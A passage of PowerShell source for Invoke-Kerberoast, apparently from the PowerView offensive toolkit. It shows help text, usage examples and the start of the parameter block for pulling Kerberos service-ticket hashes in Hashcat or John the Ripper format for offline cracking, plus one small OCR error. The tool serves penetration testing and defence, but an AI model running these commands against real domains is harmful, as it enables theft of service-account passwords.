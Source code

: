 Specifies the PageSize to set for the LDAP searcher object.

.PARAMETER ServerTimeLimit

Specifies the maximum amount of time the server spends searching. Default of 120 seconds.

.PARAMETER Tombstone

Switch. Specifies that the searcher should also return deleted/tombstoned objects.

.PARAMETER OutputFormat

Either 'John' for John the Ripper style hash formatting, or 'Hashcat' for Hashcat format.
Defaults to 'Hashcat'.

.PARAMETER Credential

A [Management.Automation.PSCredential] object of alternate credentials
for connection to the target domain.

.EXAMPLE

Invoke-Kerberoast | fl

Kerberoasts all found SPNs for the current domain, outputting to Hashcat format (default).

.EXAMPLE

Invoke-Kerberoast -Domain dev.testlab.local | fl

Kerberoasts all found SPNs for the testlab.local domain, outputting to JTR
format instead of Hashcat.

.EXAMPLE

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -orce
$Cred = New-Object System.Management.Automation.PSCredential('TESTLB\dfm.a', $SecPassword)
Invoke-Kerberoast -Credential $Cred -Verbose -Domain testlab.local | fl

Kerberoasts all found SPNs for the testlab.local domain using alternate credentials.

.OUTPUTS

PowerView.SPNTicket

Outputs a custom object containing the SamAccountName, ServicePrincipalName, and encrypted ticket section.
#>

    [Diagnostics.CodeAnalysis.SuppressMessageAttribute('PSShouldProcess', '')]
    [OutputType('PowerView.SPNTicket')]
    [CmdletBinding()]
    Param(
        [Parameter(Position = 0, ValueFromPipeline = $True, ValueFromPipelineByPropertyName = $True)]
        [Alias('DistinguishedName', 'SamAccountName', 'Name', 'MemberDistinguishedName', 'MemberName')]
        [String[]]
        $Identity,

        [ValidateNotNullOrEmpty()]
        [String]
        $Domain,
